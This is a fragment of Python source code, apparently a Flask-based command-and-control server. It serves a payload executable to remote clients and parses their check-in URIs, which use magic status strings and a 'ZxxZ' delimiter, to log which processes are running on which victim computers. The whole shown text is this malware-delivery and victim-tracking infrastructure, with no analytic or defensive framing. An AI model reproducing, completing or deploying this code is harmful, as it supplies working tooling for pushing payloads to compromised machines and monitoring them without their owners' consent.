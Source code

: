 ```python
    '-p',
    '--port',
    type=int,
    default=80,
    required=False,
    help='Listen Port')

parser.add_argument(
    '-d',
    '--debug',
    action='store_true',
    default=False,
    required=False,
    help='Debug')

args = parser.parse_args()

logging.basicConfig(level=logging.DEBUG)

payload_name = os.path.basename(args.input)     # Payload filename (.exe appened on clientside)
payload_name = payload_name.replace('.exe', '')
magic_0      = 'RNG'                            # Payload is already running
magic_1      = 'DN-S'                           # Payload is executing
magic_2      = 'S'                              # Executed payload is running
magic_3      = 'RN_E'                           # Executed payload is not running
delim        = 'ZxxZ'                           # URI arameter delimiter

payload_data = open(args.input, 'rb').read()

app = Flask(__name__)

def payload_is_already_running(data):
    """
    Payload is already running
    """
    data = data[7:]
    data = data.split(delim)
    process_name = data[0]
    computer = data[1]
    app.logger.info(f'[{computer}] {process_name} is already running')
    return process_name

def payload_is_executing(data):
    """
    Payload is executing
    """
    data = data[8:]
    data = data.split(delim)
    process_name = data[0]
    computer = data[1]
    app.logger.info(f'[{computer}] {process_name} is executing')
    return process_name

def payload_is_running(data):
    """
    Executed payload is running
    """
    data = data[1:]
    data = data.split(delim)
    process_name = data[0]
    computer = data[1]
    app.logger.info(f'[{computer}] {process_name} is running')
    return process_name
```
